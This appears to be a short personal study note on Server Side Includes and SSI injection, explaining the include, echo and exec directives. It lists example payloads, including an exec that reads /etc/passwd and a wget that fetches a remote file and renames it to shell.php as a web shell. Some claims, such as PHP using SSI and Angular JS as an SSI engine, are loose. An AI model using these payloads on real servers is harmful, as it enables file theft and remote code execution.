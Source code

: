 # Server Side Includes (SSI)

SSI is a coding mechanism to allow web server to perform tasks like displaying files or including a fileinto another file (kind of like an import?)

## `include` directive
This element inserts one html file into another html file.

Syntax to include path/file.html:
```
<!--#include virtual="path/file.html" -->
<!--#include file="path/file.html" -->
```

## `echo` directive
This element is used to display things dynamically on the web page

```
<!--#echo var="HTTP_HOST" var="DOCUMENT_URI" -->	www.st-andrews.ac.uk/itsnew/web/ssi/index.shtml
<!--#echo var="LAST_MODIFIED" -->	Friday, 07-May-2010 09:26:48 BST
<!--#echo var="DATE_LOCAL" -->	Thursday, 12-Aug-2021 09:52:57 BST
```

## `exec` directive
To execute system level commands
```
<!--#exec cmd="cat /etc/passwd" -->
```

## SSI Injection
SSI injection vulns arise when unsanitised user controlled data is put in place of an SSI directive. 

Examples:
```
<!--#exec cmd="ls" -->   -> ls is the user controlled input
<!--#exec cmd="cd /root/dir/">
<!--#exec cmd="wget http://mysite.com/shell.txt | rename shell.txt shell.php" -->

<!--#include file=”UUUUUUUU...UU”-->
```

Note: php uses SSI directives. 
Other templating engines are Angular JS.

### Impact
These vulns can be exploited to inject arbritrary content like JS. 
Can lead to:
* XSS
* Reading protected files
* Perfomring code execution (same impact as OS command injection)